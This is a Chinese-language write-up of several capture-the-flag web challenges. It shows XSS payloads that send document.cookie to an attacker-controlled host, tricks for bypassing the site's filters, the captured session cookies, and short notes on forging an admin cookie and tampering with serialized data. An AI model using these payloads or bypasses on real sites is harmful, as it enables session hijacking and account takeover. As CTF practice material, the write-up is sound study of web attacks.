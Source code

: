 ### Part Two
[https://wallowing-wallabies.ctfcompetition.com/deep-blue-sea/team/vendors/msg](https://wallowing-wallabies.ctfcompetition.com/deep-blue-sea/team/vendors/msg)

还是留言板，那么就试验下吧，稍微测试下发现好像是/后会被过滤，alert会被过滤，如果on属性后面有=号会被过滤。
由于/后被过滤，所以没办法闭合`<script>`,试了一下解决不了，那么久换标签吧...

```
<svg/onload
="
window.location='http://xss.xxx.cc?'+(document.cookie)">
```
这里也是踩了大坑，不知道为什么，这里的boot一直挂，导致很久才收到cookie，但是却没注意到cookie有区别，等了4、5个小时才发现这个问题。
```
green-mountains=eyJub25jZSI6ImUxZTM5ZjcxZTBkNTVjMDQiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vY2hhcmFjdGVycy4qJCIsImV4cGlyeSI6MTQ2MjAxNDM5MX0=|1462014388|0b51ee8a5986850cf11b119a6ddd447b277dc8e1
```
解下base64
`'{"nonce":"e1e39f71e0d55c04","allowed":"^/deep-blue-sea/team/characters.*$","expiry":1462014391}'`
我们看到给了另一个域下的权限。访问character得到另一个flag

### Part Three

虽然不知道为什么第三题给了很高的分数，不过真的是花了几分钟就做出来了。。。

测试下发现title过滤比较弱，只发现一个过滤，就是.的过滤，首先是解决域名的问题。

用`String['fromCharCode'](120, 115, 115, 46, 108, 97, 122, 121, 115, 104, 101, 101, 112, 46, 99, 99)`就可以得到域名，其次是document.cookie的问题，ak菊苣告诉我，ducument可以当作一个数组处理，也就是`document['cookie']`这样的可以得到cookie

payload
```
<script>location='http:///'+String['fromCharCode'](120, 115, 115, 46, 108, 97, 122, 121, 115, 104, 101, 101, 112, 46, 99, 99)+'/?'+document['cookie'];</script>

green-mountains=eyJub25jZSI6IjkyYmIyZWE5OWYwNTdiZDgiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vcGFyYWdyYXBoLiokIiwiZXhwaXJ5IjoxNDYyMDE5MjAxfQ==|1462019198|287dbcc084c610e2666ac995616137577bc4c05b

```

## Ernst Echidna

没啥可以说的，注册发现cookie是用户名的MD5，那么改个admin的MD5就好了

## Spotted Quoll

题目是python的序列化和反序列化
他给的解开后发现user那里是None，所以补上一个admin，get

## Purple Wombats

打开发现有源码泄露，然而最扯的事，这个提示最开始是在那个xss那题里的

源码地址：[https://github.com/mannequin-moments/website](https://github.com/mannequin-moments/website)
